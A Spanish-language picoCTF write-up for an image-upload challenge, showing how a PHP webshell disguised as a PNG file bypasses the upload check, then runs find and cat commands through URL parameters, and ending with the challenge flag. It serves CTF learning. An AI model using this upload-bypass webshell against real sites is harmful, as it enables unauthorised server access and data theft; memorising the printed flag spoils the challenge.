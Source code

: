## Objetivo
I found a web app that can help process images: PNG images only!
## Solución
- ##### Insertaremos un archivo que presuntamente es un ".png" en el sitio. Lo que en realidad es este archivo, es un script en PHP para acceder a los archivos del servidor programado en el lenguaje anteriormente mencionado. Se cambiará la extensión del archivo a ".png.php" para mantener el script y que el sitio acepte el archivo como ".png", y con el comando "nano", le pondremos al inicio de la copia del script ".PNG".
```
┌──(kali㉿kali)-[~]
└─$ mkdir picoCTF                                   
                                                                                                                  
┌──(kali㉿kali)-[~]
└─$ cd picoCTF                                      
                                                                                                                  
┌──(kali㉿kali)-[~/picoCTF]
└─$ cp /usr/share/webshells/php/s1mpl3-b4ckd00r.php webshell.php
                                                                                                                  
┌──(kali㉿kali)-[~/picoCTF]
└─$ mv webshell.php webshell.png.php
                                                                                                                  
┌──(kali㉿kali)-[~/picoCTF]
└─$ nano webshell.png.php 
```

- ##### Una vez subido el archivo, ya se encuentra en el sitio, pero no sabemos donde.
```
File uploaded successfully and is a valid PNG file. We shall process it and get back to you... Hopefully
```

- ##### En el sitio web, hay una dirección a la cual se suben todas las cargas/imágenes, la cual es "/uploads", carpeta en la cual se ha subido el script, por lo que, lo ejecutaremos y haremos los siguientes comandos:
```
Primer comando para encontrar todos los .txt existentes: 
http://atlas.picoctf.net:56088/uploads/webshell.png.php?cmd=find%20/%20-name%20*txt%202%3E/dev/null

Segundo comando para leer la informacion del archivo .txt:
http://atlas.picoctf.net:56088/uploads/webshell.png.php?cmd=cat%20/var/www/html/MQZWCYZWGI2WE.txt
```

- ##### Como resultado del segundo comando, obtenemos la bandera.
```
Flag: picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_d3ac625b}
```
## Notas Adicionales
## Referencias
- [PicoCTF](https://play.picoctf.org)